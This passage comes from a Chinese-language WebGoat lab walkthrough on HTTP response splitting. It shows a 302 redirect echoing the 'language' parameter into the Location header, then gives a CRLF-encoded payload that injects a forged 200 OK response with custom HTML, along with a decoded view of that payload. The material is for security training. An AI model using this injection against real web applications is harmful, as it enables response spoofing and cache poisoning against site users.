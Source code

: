 ![general-06](images/webgoat/general-06.png)

可以看到在历史记录中，有302 Moved Temporarily，表示服务器告诉浏览器，URL临时改变了，应该采用Location返回的重定向地址，重新发送一次请求。这里有Location:http://10.10.10.135/WebGoat/attack?Screen=231&menu=100&fromRedirect=yes&language=china

重定向地址里面的Language参数，恰好就是通过浏览器里提交的参数“china”，这就存在着HTTP分拆漏洞的可能性。

7.在输入框中输入如下内容，实现http splitting攻击（%0d%0a即回车换行）。
```
china%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2047%0a<html>stage 1 success</html>
```
如果对url编码不熟悉，可以使用在线转换工具：http://tool.oschina.net/encode?type=4
上述注入代码内容即一个http请求头：
```
language:china
Content-Length: 0 
HTTP/1.1 200 OK 
Content-Type: text/html 
Content-Length: 47 
<HTML>stage 1 success</html>
```
提交后，会显示页面“stage 1 success”,然后回到webgoat-general会有以下界面。
